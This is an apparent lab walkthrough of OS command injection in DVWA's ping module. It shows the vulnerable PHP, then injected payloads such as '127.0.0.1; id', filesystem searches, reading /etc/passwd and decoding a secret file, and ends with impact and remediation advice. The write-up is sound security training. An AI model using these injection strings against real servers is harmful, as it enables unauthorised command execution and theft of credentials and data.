










# OS Command Injection in DVWA — From a Ping Box to Arbitrary RCE


A walkthrough of an OS command injection vulnerability in the **Command Injection** module of DVWA. The page offers a harmless-looking "ping a device" box — but the input is concatenated straight into a shell command, so appending a command separator lets you run anything as the web service account. I use it to enumerate the file system, locate a protected `secret` file plus its decode helper, and recover the decrypted value.

> ⚠️ **Disclaimer** — Performed against an authorized lab instance of the intentionally vulnerable [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA). Never run these techniques against systems you don't own or have explicit permission to assess.



---

## Table of Contents
- [TL;DR](#tldr)
- [Environment](#environment)
- [Step 1 — Recon: read the source](#step-1--recon-read-the-source)
- [Step 2 — Confirm command execution](#step-2--confirm-command-execution)
- [Step 3 — Locate the files](#step-3--locate-the-files)
- [Step 4 — Read the decode helper](#step-4--read-the-decode-helper)
- [Step 5 — Decrypt the secret](#step-5--decrypt-the-secret)
- [Beyond the exercise](#beyond-the-exercise)
- [Why it works](#why-it-works)
- [Impact](#impact)
- [Remediation](#remediation)
- [Key takeaways](#key-takeaways)
- [References](#references)

---

## TL;DR

The `ip` parameter is dropped into `shell_exec('ping -c 4 ' . $ip)` with no escaping. A `;` ends the ping and starts your command:

```bash
127.0.0.1; id          # -> uid=33(www-data) ... arbitrary command execution
```

From there: find the files, read the helper, decode the secret.

```bash
127.0.0.1; base64 -d /etc/secret     # -> 480137a6…dc67c2  (the decrypted secret)
```

---

## Environment

| | |
|---|---|
| **Target** | Damn Vulnerable Web Application (DVWA) v1.9 |
| **Module** | Command Injection ("Ping a device") |
| **Security level** | `low` |
| **Parameter** | `ip` (submitted via the form; handled with `$_REQUEST`) |
| **Approach** | Grey-box — source available via *View Source* |
| **Shell context** | `www-data` (uid 33) |

---

## Step 1 — Recon: read the source

The **View Source** button shows how your input is handled:



```php
$target = $_REQUEST[ 'ip' ];
// *nix branch
$cmd = shell_exec( 'ping  -c 4 ' . $target );
echo "<pre>{$cmd}</pre>";
```

`$target` is concatenated *directly* into the string handed to `shell_exec()` — no `escapeshellarg()`, no validation, no allow-list. Whatever you type becomes part of the shell command.



A shell metacharacter like `;` terminates the intended `ping` and begins a brand-new command. `&&`, `|`, and `&` work too.

## Step 2 — Confirm command execution

Prove it before doing anything fancy. Append `; id` to a valid IP:

```bash
127.0.0.1; id
```



The ping output is followed by `uid=33(www-data) gid=33(www-data)` — confirmed arbitrary command execution as the web service account.

## Step 3 — Locate the files

List the current directory, then search the file system for the two target files:

```bash
127.0.0.1; ls -la
```



```bash
127.0.0.1; find / -name secret 2>/dev/null
127.0.0.1; find / -name 'runme_*.sh' 2>/dev/null
```

<table>
<tr>
<td></td>
<td></td>
</tr>
</table>

The files live in **separate** directories — `/etc/secret` and `/bin/runme_69300616.sh` — so I can't just `cd` into one folder and run the script blindly. Good to know before the next step.

> 💡 The input box has a `maxlength` attribute, so long `find /` commands can be silently truncated. If a command returns nothing, shorten it (`find / -maxdepth 5 …`) or remove `maxlength` via the browser's *Inspect* panel.

## Step 4 — Read the decode helper

Never run an unknown script blind — read it first:

```bash
127.0.0.1; cat /bin/runme_69300616.sh
```



```bash
#!/bin/bash
if [[ $# -eq 0 ]] ; then
    echo 'No file given.'
    exit 0
fi
[ "$1" ] && SECRET="$1"
base64 -d $SECRET
```

So the "decryption" is just **base64 decoding**, and the script expects the secret file **as an argument** (`$1`). Call it with no argument and it prints `No file given.` and exits — which explains earlier empty responses.

## Step 5 — Decrypt the secret

Invoke the helper with the secret's path — or skip the script entirely and decode directly (same result, a nice sanity check):

```bash
127.0.0.1; bash /bin/runme_69300616.sh /etc/secret
# equivalent:
127.0.0.1; base64 -d /etc/secret
```



The decoded value prints inline on the page — that string is the answer to submit.

```
480137a6 …………………………… dc67c2      (redacted here to avoid spoiling the lab)
```

## Beyond the exercise

The same flaw reads anything the service can access — the point of the exercise's closing note. For example, dumping the local account list:

```bash
127.0.0.1; cat /etc/passwd
```

With no sanitization, this generalizes to essentially any command: reverse shells, credential theft, lateral movement.

## Why it works

The app trusts user input as part of a shell command. `shell_exec()` spawns `/bin/sh -c "<string>"`, and the shell happily interprets `;`, `|`, `&&`, backticks, and `$()` inside that string. Without escaping or validation, "an IP address" and "a full command" are indistinguishable to the parser.

## Impact

OS command injection is among the most severe web vulnerabilities — it's direct code execution on the server.

- Read/write any file the service account can reach (configs, credentials, data)
- Spawn a reverse shell for interactive control of the host
- Pivot and attempt privilege escalation from that foothold
- Destroy data, deface, or stage attacks on other systems

## Remediation

- **Avoid the shell.** Use native APIs/libraries instead of shelling out. If you must run a binary, use an argument-array exec API that doesn't invoke a shell.
- **Escape every argument.** If a shell is unavoidable, wrap user input with `escapeshellarg()`.
- **Validate with an allow-list.** For an IP field, accept only a strict pattern (four dot-separated octets) and reject everything else — don't blacklist characters.
- **Least privilege.** Run the web service as an unprivileged account with minimal file access so any injection is contained.
- **Defense in depth.** Restrict outbound traffic and monitor for unexpected child processes of the web server.

## Key takeaways

- A benign-looking utility (ping) is a classic command-injection sink — look for anywhere the app runs system commands.
- Confirm execution with something harmless (`id`) before going further.
- Read helper scripts before running them; the script told me the exact call convention and that "encrypted" just meant base64.
- Decode two ways when you can — running the script *and* `base64 -d` directly — to confirm the result.

## References

- OWASP — [Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- OWASP — [OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- PHP — [`escapeshellarg()`](https://www.php.net/manual/en/function.escapeshellarg.php) · [`shell_exec()`](https://www.php.net/manual/en/function.shell-exec.php)
- MITRE — [CWE-78](https://cwe.mitre.org/data/definitions/78.html)
- [DVWA on GitHub](https://github.com/digininja/DVWA)

---

<sub>A formal PDF version of this assessment is included as <code>DVWA_Command_Injection_Report.pdf</code>. Part of my security learning portfolio.</sub>
